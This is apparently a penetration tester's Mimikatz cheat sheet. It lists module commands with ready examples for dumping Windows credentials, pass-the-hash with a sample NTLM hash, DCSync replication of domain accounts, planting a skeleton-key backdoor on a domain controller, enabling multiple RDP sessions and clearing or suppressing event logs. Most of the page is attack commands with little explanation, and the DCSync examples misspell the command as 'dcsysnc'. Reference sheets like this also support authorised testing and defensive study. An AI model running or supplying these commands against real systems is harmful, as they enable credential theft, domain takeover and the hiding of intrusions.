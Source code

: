 # Mimikatz
[See also John the Ripper](john_the_ripper.html)

## Start and elevate privilege
    privilege::debug
    token::elevate


## sekurlsa

### Commands
> Module :        sekurlsa
> 
> Full name :     SekurLSA module
> 
> Description :   Some commands to enumerate credentials...
> 
    msv  -  Lists LM & NTLM credentials
    wdigest  -  Lists WDigest credentials
    kerberos  -  Lists Kerberos credentials
    tspkg  -  Lists TsPkg credentials
    livessp  -  Lists LiveSSP credentials
    ssp  -  Lists SSP credentials
    logonPasswords  -  Lists all available providers credentials
    process  -  Switch (or reinit) to LSASS process  context
    minidump  -  Switch (or reinit) to LSASS minidump context
    bootkey  -  Set the SecureKernel Boot Key to attempt to decrypt LSA Isolated credentials
    pth  -  Pass-the-hash
    krbtgt  -  krbtgt!
    dpapisystem  -  DPAPI_SYSTEM secret
    trust  -  Antisocial
    backupkeys  -  Preferred Backup Master keys
    tickets  -  List Kerberos tickets
    ekeys  -  List Kerberos Encryption Keys
    dpapi  -  List Cached MasterKeys
    credman  -  List Credentials Manager

### Example(s)
    sekurlsa::logonpasswords
    sekurlsa::pth /user:joe.random.user /domain:hacked.com /ntlm:a2739984965f79d7bae1c76511258b5c

## Process
### Commands
> Module :        process
> 
> Full name :     Process module
> 
	    list  -  List process
	    exports  -  List exports
	    imports  -  List imports
	    start  -  Start a process
	    stop  -  Terminate a process
	    suspend  -  Suspend a process
	    resume  -  Resume a process
	    run  -  Run!
	    runp -

### Example(s)
    process::list
    process::start notepad

## lsadump::
### Commands
> Module :        lsadump
> 
> Full name :     LsaDump module
> 
>              sam  -  Get the SysKey to decrypt SAM entries (from registry or hives)
>          secrets  -  Get the SysKey to decrypt SECRETS entries (from registry or hives)
>            cache  -  Get the SysKey to decrypt NL$KM then MSCache(v2) (from registry or hives)
>              lsa  -  Ask LSA Server to retrieve SAM/AD entries (normal, patch on the fly or inject)
>            trust  -  Ask LSA Server to retrieve Trust Auth Information (normal or patch on the fly)
>       backupkeys
>           rpdata
>           dcsync  -  Ask a DC to synchronize an object
>         dcshadow  -  They told me I could be anything I wanted, so I became a domain controller
>          setntlm  -  Ask a server to set a new password/ntlm for one user
>       changentlm  -  Ask a server to set a new password/ntlm for one user
>          netsync  -  Ask a DC to send current and previous NTLM hash of DC/SRV/WKS
>         packages
>              mbc

### Example(s)
    token::elevate /domainadmin
    lsadump::dcsysnc /all /csv
    lsadump::dcsysnc /domain:hacked.com /user:Administrator


## misc::skeleton
N.B. MUST be done on the DC

At the DC:

    privilege::debug
    token::elevate
    misc::skeleton

At the client:

    net use Y: \\mydc\admin$ /user:hacker Password123!


## Other modules
### ts::
> Module :        ts
> 
> Full name :     Terminal Server module
> 
    	multirdp  -  [experimental] patch Terminal Server service to allow multiples users
    	sessions
    	remote

### net::
> Module :        net
> 
> Full name :
> 
>             user  -
>            group  -
>            alias  -
>          session  -
>         wsession  -
>              tod  -
>            stats  -
>            share  -
>       serverinfo  -
>            trust  -
>            deleg  -

### event::
> Module :        event
> 
> Full name :     Event module
> 
>             drop  -  [experimental] patch Events service to avoid new events
>            clear  -  Clear an event log